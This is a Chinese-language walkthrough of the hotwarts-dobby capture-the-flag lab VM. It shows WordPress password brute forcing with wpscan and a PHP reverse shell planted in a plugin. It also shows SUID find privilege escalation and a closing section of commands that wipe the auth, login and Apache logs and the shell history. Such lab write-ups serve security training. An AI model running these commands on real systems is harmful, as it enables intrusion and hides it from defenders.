

# 前言

靶机：`hotwarts-dobby`，ip地址为`192.168.1.68`

攻击：`kali`，ip地址为`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`扫描发现主机


# 信息收集

## 使用nmap扫描端口


## 网站探测

发现只有一个80端口，访问查看，发现是`apache`的默认界面，查看页面源代码，在最后发现一个可能是目录的地址


访问这个目录`alohomora`，发现给出一段话，该话大概意思是"Draco的密码是他的房间"


继续收集，使用工具进行目录爆破

可以使用`gobuster、dirsearch、dirb、dirbuster、ffuf`等工具

```shell
gobuster dir -u http://192.168.1.68 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```


访问`phpinfo.php`，确定脚本语言为`php`


访问`log`，发现一个密码，以及一个目录，结合前面的用户，应该就是其密码


用户名`Draco`，不过这里的密码应该是经过编码处理的，很像是`base64`，尝试进行解码

```shell
echo OjppbGlrZXNvY2tz | base64 -d 
```

结果为`::ilikesocks`，那么密码应该是`ilikesocks`

访问`DiagonAlley`，发现一串字符，疑似是进行编码处理的


借助网站`https://www.dcode.fr/cipher-identifier`分析是哪种加密


发现是`brainfuck`，尝试进行解密，但是这解密出的内容，不知道有什么作用


不过这里可以明确的看到`blog`可能是博客，使用`whatweb`等测试其指纹信息

```shell
whatweb http://192.168.1.68/DiagonAlley
```


发现`wordpress`，那么使用针对其的工具`wpscan`

```shell
wpscan --url http://192.168.1.68/DiagonAlley
```

发现`xmlrpc.php`


那么尝试进行用户名枚举，看有无信息，发现用户名`draco`

```shell
wpscan --url http://192.168.1.68/DiagonAlley -e u
```


那么之前的信息都对上了，可以访问`wp-admin`尝试使用`draco`以及前面的密码`ilikesocks`进行登录

这里的目录`wp-admin`是`wordpress`的默认，或者可以再次使用工具进行目录爆破，也是可以发现该目录的

但是使用这一组用户名和密码并未成功登录，尝试进行密码爆破，这个时间比较长，所以要等待一段时间

```shell
wpscan --url http://192.168.1.68/DiagonAlley -e u -P /usr/share/wordlists/rockyou.txt
```


# 漏洞利用

最终爆破出密码`slytherin`，在等待的时候，测试有无插件漏洞，发现没有，也就等待爆破结果

找到插件，测试是否可以修改文件，发现可以


那么就尝试进行修改，首先启动插件，选择一个插件进行启动，这个插件`hello dolly`，就是右上角的欢迎语句


然后再编辑插件文件，可以把`kali`中自带的`php`反弹代码复制到插件文件中，使得可以获得一个反弹`shell`

该文件在`kali`位置`/usr/share/webshells/php/php-reverse-shell.php`，修改脚本中的监听地址为`kali`的地址，以及端口自行修改


在`kali`使用`nc`监听1234端口，然后刷新浏览器页面，可以看到获取shell


使用`dpkg`命令查看靶机安装的`python`版本，然后获取一个交互式界面

```shell
dpkg -l | grep python

python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 反弹shell成功

收集靶机内的用户


切换到`/home/dobby`，查看其目录的文件，发现`flag1.txt`，使用`tac`查看


# 提权

## 水平提权

这里考虑到之前的用户名和密码，那么使用`ilikesocks`密码切换用户`dobby`，发现成功


使用`ls -al`发现几个文件


先查看`.bash_history`发现用户`dobby`的命令记录


使用`find`寻找具有SUID权限文件，当然可以按照历史记录中的命令也是可以的

```shell
find / -perm -u=s -type f 2>/dev/null
```



测试`sudo -l`可用吗，发现不被允许的


对于上面的命令，可以借助网站`gtfobins.github.io`查看提权方式

```shell
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```


## 垂直提权root

然后在shell中使用`/usr/bin/find . -exec /bin/sh -p \; -quit`，提权成功


查看最终`flag`，也就是在`/root`目录下


当然，还有上面的`base32`命令，不过这个主要是进行文件读取的，所以可以利用这个查看只有`root`才能看的文件，如`/etc/shadow`，然后获取后再进行`hash`破解

为了省事，这里就直接使用查看`/root/proof.txt`文件


# 清理痕迹

日志清理

这里不再截图，直接以命令展示，把几个文件中的数据修改

```shell
sed -i "/192.168.1.16/d" /var/log/auth.log
echo > /var/log/btmp
echo > /var/log/faillog
echo > /var/log/lastlog
echo > /var/log/wtmp
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```

反弹shell脚本清除

把网站中的插件中的代码删除掉，复原原本的插件状态，也就是不激活插件

历史命令清理

```shell
history -r
history -c
```

# 总结

该靶场考察以下几点

1. 页面源代码中可能存在注释，导致信息泄露
2. 网站目录爆破，可能发现敏感文件
3. CMS指纹识别，对于`wordpress`的了解，以及`wpscan`的使用
4. 反弹shell脚本的使用，或者自己创建，如`php`一句话木马都行
5. 提权方式，这里是因为SUID权限文件包含`find`以及`base32`，并且是可用的，所以提权成功


